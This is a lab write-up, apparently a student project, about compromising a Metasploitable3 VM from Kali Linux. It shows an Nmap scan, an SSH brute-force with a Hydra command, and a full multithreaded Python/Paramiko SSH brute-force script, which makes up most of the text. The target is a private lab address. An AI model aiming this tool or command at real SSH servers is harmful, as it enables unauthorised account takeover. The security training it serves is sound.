# Phase 1: Setup and Compromise the Service

## 1. Installation Guide

In Phase 1 of this project, WE worked on setting up the **Metasploitable3** victim machine and an **attacker environment** using **Kali Linux** to perform a brute-force attack. The goal was to identify vulnerabilities in services like SSH and compromise the victim machine to retrieve flags. In this phase, I utilized various tools, primarily **Hydra** for brute-forcing SSH, and custom scripts for automating the attack.


### 1- Download Metasploitable3:

The installation file can be found at https://github.com/rapid7/metasploitable3 repository.

### 2- Prerequisites

Ensure you have VirtualBox or VMware installed for hosting the VM.
Install Vagrant and VirtualBox on your system (Vagrant automates the configuration and provisioning of the VM).

### 3- Install Metasploitable3:

#### Clone the Metasploitable3 repository from GitHub:

git clone https://github.com/rapid7/metasploitable3.git

#### Navigate to the directory where the repository was cloned:

cd metasploitable3

#### Run the following commands to build the VM:

vagrant up

### Verify VM Setup:

After the VM is up and running, confirm the IP address by logging into the Metasploitable3 VM and checking the network interface:




## Setting Up the Attacker Environment


The attacker environment was set up using **Kali Linux**. Kali Linux provides numerous tools for penetration testing and exploitation.

### 1- Performing Network Scanning:

The first step was to scan the target machine using Nmap to identify open services and ports:



#### This revealed multiple open ports like FTP (21), SSH (22), and HTTP (80), which are known to be vulnerable to various exploits.

## 2- SSH Brute Force Attack with Hydra

After identifying SSH (port 22) as an open service, the next step was to attempt a brute force attack on SSH login using a wordlist of usernames and passwords.

#### Finding Common Wordlists

I searched for common username and password wordlists for performing brute-force attacks. Two essential wordlists were found:

Usernames Wordlist: A file containing common usernames that could be used for the SSH login attempts.

Passwords Wordlist: A file containing common passwords that could be used in the attack.






##### This is the worslists repo https://github.com/danielmiessler/SecLists.git

#### Running Hydra for Brute-Force Attack

With the wordlists prepared, Hydra was used to attempt an SSH brute-force attack using these lists. 




The attack was executed with the following command:

hydra -L ssh_usernames.txt -P ssh_passwords.txt ssh://172.28.128.3




#### Resutult of the Attack

Once valid credentials were obtained, I was able to access the victim machine via SSH using the credentials 
vagrant:vagrrant. 



This is a flag written by the victim's machine (flag.txt:



This is the flag read by the attacker that was written by the victim:




This flag was written by the Attacker's machine (hacked.txt):



The flag was read by the victim (hacked.txt):




## Writing a Custom Script for SSH Brute Force


#### To automate the process and make the brute-force attack more efficient, I created a custom Python script. The script,
named ssh-bruteforce.py, was designed to attempt SSH login using a list of usernames and passwords. Here's how the script worked:

##### Script Functionality

The script used Paramiko, a Python library for SSH connections, to attempt logging into the SSH service on the victim machine.

The script iterated over every combination of username and password, attempting to connect to the victim machine using these credentials.

The script displayed the result of each attempt: whether the login was successful or failed.

```
##### The script

Code
python#!/usr/bin/env python3
import paramiko
import socket
import time
import argparse
import threading
import sys
import os
from concurrent.futures import ThreadPoolExecutor

# Disable paramiko logging
import logging
logging.getLogger('paramiko').setLevel(logging.CRITICAL)

successful_attempts = []
attempted_count = 0
lock = threading.Lock()

# Hardcoded paths to wordlist files
DEFAULT_USERNAMES_FILE = '/home/kali/Downloads/wordlist/ssh_usernames.txt'
DEFAULT_PASSWORDS_FILE = '/home/kali/Downloads/wordlist/ssh_password.txt'

def try_ssh_login(hostname, port, username, password, timeout=3):
    """Attempt to login to SSH with given credentials"""
    global attempted_count
    
    # Update counter with lock to prevent race conditions
    with lock:
        attempted_count += 1
        current_count = attempted_count
    
    try:
        # Create SSH client
        ssh = paramiko.SSHClient()
        ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        
        # Attempt connection
        ssh.connect(
            hostname=hostname,
            port=port,
            username=username,
            password=password,
            timeout=timeout,
            allow_agent=False,
            look_for_keys=False
        )
        
        # If we get here, login was successful
        with lock:
            successful_attempts.append((username, password))
            print(f"\n[+] SUCCESS! Username: {username} | Password: {password}\n")
        
        # Close connection
        ssh.close()
        return True
        
    except paramiko.AuthenticationException:
        # Authentication failed
        sys.stdout.write(f"\r[{current_count}] Failed: {username}:{password}" + " " * 20)
        sys.stdout.flush()
        return False
    except (socket.error, socket.timeout, paramiko.SSHException):
        # Connection error or timeout
        sys.stdout.write(f"\r[{current_count}] Error connecting to {username}:{password}" + " " * 20)
        sys.stdout.flush()
        return False
    except Exception as e:
        # Other errors
        sys.stdout.write(f"\r[{current_count}] Error: {str(e)[:30]}" + " " * 20)
        sys.stdout.flush()
        return False

def read_file(filename):
    """Read lines from a file and return as a list"""
    try:
        with open(filename, 'r') as f:
            return [line.strip() for line in f if line.strip()]
    except FileNotFoundError:
        print(f"Error: File '{filename}' not found.")
        sys.exit(1)

def main():
    parser = argparse.ArgumentParser(description='SSH Brute Force Tool')
    parser.add_argument('-t', '--target', default='172.28.128.3', help='Target hostname or IP (default: 172.28.128.3)')
    parser.add_argument('-p', '--port', type=int, default=22, help='SSH port (default: 22)')
    parser.add_argument('-L', '--userlist', help='File containing usernames (default: /home/kali/Downloads/wordlist/ssh_usernames.txt)')
    parser.add_argument('-P', '--passlist', help='File containing passwords (default: /home/kali/Downloads/wordlist/ssh_passwords.txt)')
    parser.add_argument('-l', '--username', help='Single username')
    parser.add_argument('-w', '--password', help='Single password')
    parser.add_argument('-T', '--threads', type=int, default=4, help='Number of threads (default: 4)')
    parser.add_argument('-o', '--output', help='Output file for successful logins')
    parser.add_argument('-v', '--verbose', action='store_true', help='Verbose output')
    
    args = parser.parse_args()
    
    # Get usernames and passwords
    usernames = []
    passwords = []
    
    # Use default wordlist paths if no files or single values provided
    userlist_path = args.userlist if args.userlist else DEFAULT_USERNAMES_FILE
    passlist_path = args.passlist if args.passlist else DEFAULT_PASSWORDS_FILE
    
    if args.username:
        usernames = [args.username]
    else:
        print(f"[*] Using username list: {userlist_path}")
        usernames = read_file(userlist_path)
        
    if args.password:
        passwords = [args.password]
    else:
        print(f"[*] Using password list: {passlist_path}")
        passwords = read_file(passlist_path)
    
    print(f"[*] Starting SSH brute force against {args.target}:{args.port}")
    print(f"[*] Using {len(usernames)} username(s) and {len(passwords)} password(s)")
    print(f"[*] Running with {args.threads} threads")
    start_time = time.time()
    
    # Create task list - all username/password combinations
    tasks = [(args.target, args.port, u, p) for u in usernames for p in passwords]
    total_tasks = len(tasks)
    
    print(f"[*] Total combinations to try: {total_tasks}")
    
    # Use ThreadPoolExecutor to manage threads
    with ThreadPoolExecutor(max_workers=args.threads) as executor:
        # Submit all tasks to the executor
        executor.map(lambda task: try_ssh_login(*task), tasks)
    
    # Print results
    elapsed_time = time.time() - start_time
    print(f"\n\n[*] Completed in {elapsed_time:.2f} seconds")
    print(f"[*] Tested {attempted_count} combinations")
    
    if successful_attempts:
        print(f"[+] Found {len(successful_attempts)} valid credentials:")
        for username, password in successful_attempts:
            print(f"    {username}:{password}")
            
        # Write to output file if specified
        if args.output:
            with open(args.output, 'w') as f:
                for username, password in successful_attempts:
                    f.write(f"{username}:{password}\n")
            print(f"[+] Results saved to {args.output}")
    else:
        print("[-] No valid credentials found")


```
##### 4.2. Brute-Force Execution

###### python ssh-bruteforce.py 172.28.128.3





The script successfully found the valid credentials (username: vagrant, password: vagrant) after trying multiple combinations 
from the provided wordlists. This proved that SSH login was vulnerable to brute-force attacks on Metasploitable3.


## Coclusion

#### In Phase 1, I successfully set up a victim environment using Metasploitable3 and an attacker environment using Kali Linux. 
By scanning the victim machine with Nmap, I identified vulnerable services, focusing on SSH for the brute-force attack. 
I used Hydra with commonly found wordlists and created a custom Python script to automate the brute-force process. 
After several attempts, I gained access to the victim machine, retrieved the flag files, and demonstrated the vulnerability of SSH to brute-force attacks.

